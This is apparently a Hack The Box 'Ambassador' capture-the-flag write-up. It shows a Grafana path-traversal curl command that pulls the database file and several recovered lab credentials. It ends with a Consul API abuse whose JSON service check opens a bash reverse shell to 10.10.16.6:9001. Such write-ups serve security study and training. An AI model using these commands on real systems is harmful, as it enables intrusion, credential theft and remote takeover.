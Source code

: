 Hack the box Ambassador

Initial Scan

PORT 80 running a hugo site which a static site generater framework   
PORT 3000 running Grafana. A grafical monitering tool   
PORT 3306 running mysql   

unauthenticated path traversal vuln in grafana version 3.2.0   
Referance [https://www.exploit-db.com/exploits/50581]( https://www.exploit-db.com/exploits/50581)   
More about path traversal [https://j0vsec.com/post/cve-2021-43798/](https://j0vsec.com/post/cve-2021-43798/)   

**FOOTHOLD**    
Default config of grafana is using sqlite3 and the db file store on /var/lib/grafana/grafana.db

Downloading Grafana.db

```bash
curl --path-as-is "http://10.129.208.1:3000/public/plugins/state-timeline/../../../../../../../../../../../../../var/lib/grafana/grafana.db" -O grafana.db
```

Found Mysql Creds
```bash
Username:grafana
password:dontStandSoCloseToMe63221!
Database:grafana
```
Grafana login Creds
```bash
username:admin
password:dad0e56900c3be93ce114804726f78c91e82a0f0f0f6b248da419a0cac6157e02806498f1f784146715caee5bad1506ab069
salt:0X27trve2u
````
connect mysql using creds and found another creds from whackywedget database      

User Creds 
```bash
developer:YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==:anEnglishManInNewYork027468
```
**PRIVILEAGE ESCALATION**

Found token from local git commit of my-app in opt dir
```bash
ACL token:bb03b43b-1d81-d62b-24b5-39540ee469b5
```
Making exploit

Referance API doc
[https://www.consul.io/api-docs/agent/service](https://www.consul.io/api-docs/agent/service)   
Referance about default port [https://stackoverflow.com/questions/30684262/different-ports-used-by-consul](https://stackoverflow.com/questions/30684262/different-ports-used-by-consul)   
```bash
curl http://127.0.0.1:8500/v1/agent/services -H "X-Consul-Token: bb03b43b-1d81-d62b-24b5-39540ee469b5"
curl -X PUT http://127.0.0.1:8500/v1/agent/services/register -H "X-Consul-Token: bb03b43b-1d81-d62b-24b5-39540ee469b5" --data @rce.json
```
rce.json
```json
{
  "ID": "rce3",
  "Name": "rce3",
  "Tags": ["primary", "v1"],
  "Address": "127.0.0.1",
  "Port": 80,
  "Check": {
    "Args": ["bash", "-c", "bash -i >& /dev/tcp/10.10.16.6/9001 0>&1"],
    "Interval": "10s",
    "Timeout": "86400s"
  }
}
```